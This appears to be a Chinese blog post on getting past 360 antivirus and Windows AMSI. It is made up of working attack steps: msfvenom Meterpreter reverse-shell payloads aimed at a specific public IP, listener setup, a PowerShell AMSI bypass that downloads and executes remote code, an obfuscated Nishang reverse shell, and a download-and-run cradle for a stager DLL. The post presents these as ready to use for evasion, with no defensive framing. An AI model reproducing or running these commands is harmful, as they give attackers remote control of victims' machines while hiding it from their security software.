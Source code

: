 ```yaml
---
layout:     post
title:      bypass_360
date:       2019-1-13
author:     Wh0ale
header-img: img/1.jpg
catalog: true
tags:
    - bypass
---
```




# 0x01 AMSI_bypass

 **1.生成shellcode放入apache服务器中**

```
msfvenom -a x64 -plateform windows -p windows/x64/meterpreter/reverse_tcp lhost=118.25.69.199 lport=4444 -f psh -o shellcode.txt 
```

**2.msfconsole开始监听**

```bash
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

msf exploit(multi/handler) > set lhost 118.25.69.199

lhost => 192.168.211.179

msf exploit(multi/handler) > set lport 4444

lport => 4444

msf exploit(multi/handler) > run
```

**3.在目标机器执行powershell**

```
[ScriptBlock]."Get`Fiel`d"('signatures','N'+'onPublic,Static').SetValue($NULL,(New-Object Collections.Generic.HashSet[string]));
     $e=new-object net.webclient;
     $e.proxy=[Net.WebRequest]::GetSystemWebProxy();
     $e.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;
     IEX $e.downloadstring('http://118.25.69.199/shellcode/9988.txt')
```

 

**4.拿到shell**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3kzc2zdyj20zw082wh5.jpg)

 

# 0x02 Invoke-Obfuscation.psd1

![enter description here](file:///C:/Users/49974/AppData/Local/Temp/msohtmlclip1/01/clip_image003.png)

 ```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
 ```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l0gc3gwj20hs0c63yr.jpg)

 ```powershell
Invoke-Obfuscation> set ScriptBlock ls

Invoke-Obfuscation> ENCODING

Invoke-Obfuscation\Encoding> 2
 ```

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l0zh7chj20ig0dnmxf.jpg)

生成混淆payload：

```powershell
Invoke-Obfuscation> set ScriptBlock . F:\Privilege\nishang-master\Shells\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddres 192.168.211.179 -Port 4444
```

```
Invoke-Obfuscation> encoding

Invoke-Obfuscation\Encoding> 2
```

编码后如下：

```
 & ( $eNV:ComsPec[4,15,25]-JOin'')(( '73T65T74{20!53J63!72Z69J70y74y42w6cT6fy63{6bJ20Z2e;20w46{3aT5cw50!72y69;76w69J6c;65!67{65;5cJ6e!69Z73J68;61w6eZ67!2d;6dy61T73;74J65;72T5cJ53Z68J65w6c!6cT73T5c{49J6ew76y6fy6b{65w2dZ50!6f{77w65T72J53y68;65T6cw6cT54y63!70w2e!70Z73{31{3b{20{49J6e!76Z6fy6bT65T2dJ50w6f!77!65;72;53!68J65y6cw6cZ54T63!70!20;2dJ52J65w76Z65y72w73w65!20!2d;49Z50T41T64J64!72w65T73T20{31;31;38J2ey32J35{2e;36{39!2e;31w39Z39!20Z2d!50!6fT72!74{20T34J34J34Z34' -spLiT'J'-SPlIt';' -spLIt'!'-SPlIT'y' -SPliT '{' -SPLIt 'w' -SPLIT 'T' -Split'Z'|%{([chAr] ([CoNVerT]::toiNt16(( $_.TOstRiNg()),16 ) ))}) -JOiN'')


```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l3yess7j20pn05kaa6.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l4f4h62j20zk0qx10g.jpg)

 



# 0x03  stager.dll-master

 meterpreter.rc

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l5wtadsj20uw0fjduq.jpg)

启动msf5

```
./msfconsole -r ./stager.dll -master/meterpreter.rc
```

生成payload：

```
./msfvenom -p windows/meterpreter/reverse_tcp_rc4 EXIT_FUNC=PROCESS LHOST-192.168.211.179 LPORT=443 RC4PASSWORD=GeekIsChic --encrypt aes256 --encrypt-iv E7a0eCX76F0YzS4j --encrypt-key 6ASMkFslyhwXehNZw048cF1Vh1ACzyyR -f c -o /tmp/meterpreter.c
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l7f5ba2j20iw05m76m.jpg)

生成exp：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l80v1dij20el0b5jry.jpg)

靶机执行

```bash
rundll32 stager.dll,Exec
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l9buhhjj211x0buwsa.jpg)

②dll放入服务器

```
$file = $env:temp+'\'+(Get-Random)+'.dll'; (New-Object System.Net.WebClient).DownloadFile('http://192.168.211.179/Privilege/stager.dll',$file); $exec = New-Object -com shell.application; $exec.shellexecute('rundll32',$file+',Exec');
```

powershell混淆

```
cd Invoke-Obfuscation && powershell -exec bypass -c "Import-Module ./Invoke-Obfuscation.psd1;Invoke-Obfuscation"
```

混淆这条命令

```
$file = $env:temp+'\'+(Get-Random)+'.dll'; (New-Object System.Net.WebClient).DownloadFile('http://外网ip/stager.dll',$file); $exec = New-Object -com shell.application; $exec.shellexecute('rundll32',$file+',Exec');
```

然后再对方主机powershell执行

由此可以免杀

<https://github.com/phackt/stager.dll>



reference:
<http://www.secist.com/archives/7195.html?tdsourcetag=s_pctim_aiomsg>

[求助\] Apache 2.2.14 mod_isapi Dangling Pointer漏洞用法](https://bbs.silic.wiki/thread-3039-1-1.html)

[我的shellcode编写之路](http://www.secist.com/archives/4809.html)http://www.ggsec.cn/stager-dll.html#more)

[渗透攻防工具篇-后渗透阶段的Meterpreter](https://paper.seebug.org/29/)

